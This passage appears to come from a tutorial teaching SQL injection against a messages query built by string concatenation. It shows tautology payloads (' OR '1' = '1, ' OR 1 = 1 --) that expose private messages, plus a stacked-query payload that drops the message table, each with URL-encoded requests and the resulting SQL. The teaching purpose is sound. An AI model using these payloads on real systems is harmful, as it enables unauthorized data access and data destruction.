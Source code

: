 	- To load the data, the following query is sent to the database:
	
		```sql
		SELECT * FROM message WHERE private = FALSE AND sender_name = 'twiggy' ORDER BY create_date DESC
		```

	- This query is created using string concatenation:

		`... sender_name = '"+userName+"' ...`

	- What `userName` value can we use to get back ALL messages from ALL users, including private messages?

	- What happens when we send the following as the `userName` parameter?

		`' OR '1' = '1`

	- After URL encoding, the URI with the SQL Injection payload would be:

		`/messages?userName=%27%20OR%20%271%27%20%3D%20%20%271`

	- Which will result in the SQL query:

		```sql
		SELECT * FROM message WHERE private = FALSE AND sender_name = '' OR '1' = '1' ORDER BY create_date DESC
		```

2. **Using Line Comments to Ignore Parts of a Query**
	
	 - Line Comments ignore the rest of the query using database comment syntax **`--`**

	 - The previous exploit can be simplified using the following payload:

	 	`' OR 1 = 1 --`
	
	- After URL encoding, the URI with the SQL Injection payload would be:

		`/messages?userName=%27%20OR%201%20%3D%201%20--`

	- Which will result in the SQL query:

		```sql
		SELECT * FROM message WHERE private = FALSE AND sender_name = '' OR 1 = 1 --' ORDER BY create_date DESC
		```

3. **Stacking Queries - Executing more than one query in one transaction**

	- For some platforms, multiple SQL statements can be executed during one call to the database

	- This can lead to some very serious vulnerabilities.  Imagine if the `userName` parameter in the previous example contained the following payload:

		`'; DROP TABLE message; --`

	- After URL encoding, the URI with the SQL Injection payload would be:

		`/messages?userName=%27%3B%20DROP%20TABLE%20message%3B%20--`

	- Which will result in the SQL query:

		```sql
		SELECT * FROM message WHERE private = FALSE AND sender_name = ''; DROP TABLE message; --' ORDER BY create_date DESC
		```
    